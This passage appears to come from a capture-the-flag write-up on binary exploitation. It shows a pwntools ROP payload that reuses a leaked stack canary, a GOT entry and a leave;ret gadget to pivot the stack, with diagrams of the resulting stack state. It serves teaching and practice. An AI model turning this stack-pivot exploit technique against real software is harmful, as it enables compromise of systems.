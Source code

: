 Observe the payload below

{% code lineNumbers="true" %}
```python
# ...some code

ropPayload = flat([
    elf.got['__stack_chk_fail'],
    0x0401300,                   # printf("%ld\n", canary);, but instead of canary, now its [__stack_chk_fail] - 8
    cyclic(24),
    canary,
    pivot - 0x30,
    rop.find_gadget(['leave', 'ret']).address,
])
io.send(ropPayload)
```
{% endcode %}

For a better understanding, Let's visualise the our "stack" after the payload is sent.

<figure><img src="../../../.gitbook/assets/Untitled Diagram.drawio (6).png" alt="" width="226"><figcaption><p>initial "stack" state after rop payload</p></figcaption></figure>

Next, at the of _<mark style="color:green;">**cool\_thing2()**</mark>_, the program eventually will run <mark style="color:orange;">**`leave; ret;`**</mark> which exist at the end of every functions. After that call the stack will look like this

<figure><img src="../../../.gitbook/assets/Untitled Diagram.drawio (7).png" alt="" width="218"><figcaption><p>"stack" after first leave; ret;</p></figcaption></figure>
